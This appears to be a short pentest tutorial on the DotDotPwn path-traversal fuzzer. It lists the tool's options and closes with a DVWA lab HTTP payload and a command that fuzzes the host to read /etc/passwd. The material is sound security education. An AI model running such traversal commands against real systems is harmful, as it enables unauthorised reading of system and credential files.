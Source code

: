 ```yaml
---
title: DotDotPwn
tags:
- pentest
- path traversal
see_also:
  -
    link: OWASP Path Traversal
    url: https://www.owasp.org/index.php/Path_Traversal
  -
    link: Damn Vulnerable Web Application
    url: http://blog.10degres.net/damn-vulnerable-web-application/
---
```

Path traversal is a very powerful attack but not necessarily easy to find, fortunatly DotDotPwn is here to help you! [DotDotPwn](http://dotdotpwn.blogspot.fr/ "DotDotPwn"){:class="flashlink" target="_blank"} is a powerful traversal directory fuzzer. 
Written in perl, it's installed in Kali Linux by default.

Basic usage is:

`dotdotpwn.pl -m <module> -h <host>`

Several options are available:

-h: the host you want to test  
-m: it supports http, ftp or text file as a payload  
-o and -O: enable the operating system detection  
-d: max depth it will look for (ie. max `../`)  
-f : file to grab (default is `/etc/passwd` for *nix system)  
-E: try to grab some extra files depending of the os detection result  
-S: ssl support  
-x: specify the port  
-r: output file  
-q: quiet mode  
-k: keyword to match in the response who means a win  
-b: exit after the first vulnerability found  
-M: http method to use with http module (can't make it work)  
-e: add an extension (.php, .png, ...)  

and some more...

<!--more-->

Example:

[![dotdotpwn](/images/dotdotpwn_1.png)](/images/dotdotpwn_1.png)

Will produce the following Apache logs (note that the User-Agent is different for each request):

[![dotdotpwn](/images/dotdotpwn_2.png)](/images/dotdotpwn_2.png)

To deal with session and cookies you can use a payload to provide details about the HTTP request. 
The keyword `TRAVERSAL` is required by DotDotPwn to specify where the injection should be performed. 
For instance in the file inclusion section in DVWA, you can try this:

```
GET /vulnerabilities/fi/?page=TRAVERSAL HTTP/1.1
Host: local.dvwa.com
Cookie: security=low; PHPSESSID=rcvkns45jv1i62t1c4jqj8ogu4
```

With the following command:

`$ dotdotpwn.pl -m payload -h local.dvwa.com -p ~/dvwa_fi.txt -x 80 -k "root:" -f /etc/passwd`
